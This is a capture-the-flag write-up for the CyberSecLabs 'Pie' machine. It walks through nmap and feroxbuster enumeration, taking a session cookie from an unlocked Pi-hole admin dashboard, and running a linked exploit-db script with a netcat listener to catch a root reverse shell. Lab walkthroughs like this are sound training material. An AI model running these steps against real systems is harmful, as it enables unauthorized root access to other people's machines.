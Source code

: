 ```yaml
---
description: https://www.cyberseclabs.co.uk/labs/info/Pie/
---
```


# Pie

![](<../../../.gitbook/assets/image (636).png>)

## Nmap

```
nmap 172.31.1.26 -p- -A

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f6:a9:75:4c:34:de:ee:58:23:83:dc:b1:00:fc:3f:d4 (RSA)
|   256 26:44:00:05:82:b6:d2:2e:6a:34:34:91:83:73:fd:50 (ECDSA)
|_  256 65:d2:02:da:22:74:71:5c:e1:30:3e:64:ea:37:a0:d3 (ED25519)
53/tcp open  domain  dnsmasq pi-hole-2.81
| dns-nsid: 
|_  bind.version: dnsmasq-pi-hole-2.81
80/tcp open  http    lighttpd 1.4.45
|_http-server-header: lighttpd/1.4.45
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP

Unless we opted to brute force SSH on port 22 HTTP on port 80 is going to be our best attack vector. The root page on 172.31.1.26 takes us to the following page for Pi-hole.

![http://172.31.1.26](<../../../.gitbook/assets/image (637).png>)

I decided to use feroboxbuster to enumerate further web directories. Using the `-s` switch we can select only results for specific return codes. The `-q` switch further reduces output.

```
feroxbuster -u http://172.31.1.26/ -s 301,200 -q
```

![](<../../../.gitbook/assets/image (638).png>)

Browsing to [http://172.31.1.26/admin/](http://172.31.1.26/admin/) we find we are already signed into the administrator's dashboard.

![http://172.31.1.26/admin/](<../../../.gitbook/assets/image (640) (1).png>)

Going to help on the left and scrolling down we can see what version of Pi-hole we are running.

![http://172.31.1.26/admin/settings.php](<../../../.gitbook/assets/image (641).png>)

Performing a Google search for Pi-hole exploits one of the top results is from exploit-db.com which I have linked below.

{% embed url="https://www.exploit-db.com/exploits/48443" %}

This exploit meets our criteria where is affects versions of Pi-hole 4.4 and before. Other exploits also require knowing the password for authentication in which we do not. This exploit above requires a session cookie in which we can provide since are logged in.

![](<../../../.gitbook/assets/image (642).png>)

In Firefox whilst logged into the dashboard we can open the console window with CTRL + SHIFT + I.

![](<../../../.gitbook/assets/image (643).png>)

Move into storage and make a note of the value next to the PHPSESSID. This is our session cookie in which we need for the exploit.

Before we run the exploit start `netcat` with the following command:

```
nc -lvp 4455
```

When ready run the exploit with the following syntax:

```
sudo python3 exploit.py <SessionCookie> http://172.31.1.26/ <IP> 4455
```

![](<../../../.gitbook/assets/image (646).png>)

When checking our `netcat` listener we should have caught a shell as root.

![](<../../../.gitbook/assets/image (647).png>)
